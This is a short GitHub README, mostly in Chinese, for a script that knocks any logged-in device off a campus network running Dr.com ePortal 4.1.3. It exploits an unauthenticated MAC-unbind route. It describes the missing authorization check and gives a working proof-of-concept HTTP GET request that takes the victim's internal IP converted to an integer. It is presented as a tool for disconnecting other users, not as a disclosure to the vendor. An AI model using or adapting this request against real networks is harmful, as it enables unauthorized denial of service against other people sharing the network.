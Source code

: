 # DrcomCutdown
Dr.com Eportal校园网认证--踹人下线脚本

😎测试版本:
  **Guangzhou Hotspot Software Technology Co., Ltd. © 2020   EPortal4.1.3**

🥳效果:
  用此脚本可以将校园网内任意已登陆设备强制踹下线，实现断网效果（前提是得知道目标内网ip地址）

# 原理 -Principle
由于未对unbind路由做验证，导致任意知道受害者内网ip地址的人员，在使用一个简易将ip地址转换为int整型数字的算法后，可以实现无授权解绑目标mac地址，实现断网效果。

***POC:***
```GET /eportal/portal/mac/unbind?wlan_user_mac=000000000000&wlan_user_ip={ipToParseIntValue}&lang=en HTTP/1.1
Host: xx.xx.xx.xx:xxx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.10.154/
```
